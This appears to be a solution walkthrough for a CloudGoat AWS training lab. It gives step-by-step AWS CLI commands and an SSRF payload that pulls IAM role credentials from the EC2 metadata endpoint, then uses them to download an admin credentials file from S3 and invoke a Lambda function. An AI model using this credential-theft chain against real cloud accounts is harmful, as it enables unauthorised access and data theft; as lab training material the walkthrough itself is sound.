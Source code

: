 `aws configure --profile solus`

`aws lambda list-functions --profile solus`

`aws configure --profile cglambda`

`aws ec2 describe-instances --profile cglambda`

Go to `http://<EC2 instance IP>`

Abuse the SSRF via the "url" parameter to hit the EC2 instance metadata by going to:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`

And then:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name>`

Then Add the EC2 instance credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[ec2role]
aws_access_key_id = asdasdasd
aws_secret_access_key = asdasdsadas
aws_session_token = "asdasdasd"
```

`aws s3 ls --profile cgec2role`

`aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>`

`aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>/admin-user.txt ./`

`cat admin-user.txt`

`aws configure --profile cgadmin`

`aws lambda list-functions --profile cgadmin`

`aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt`

`cat out.txt`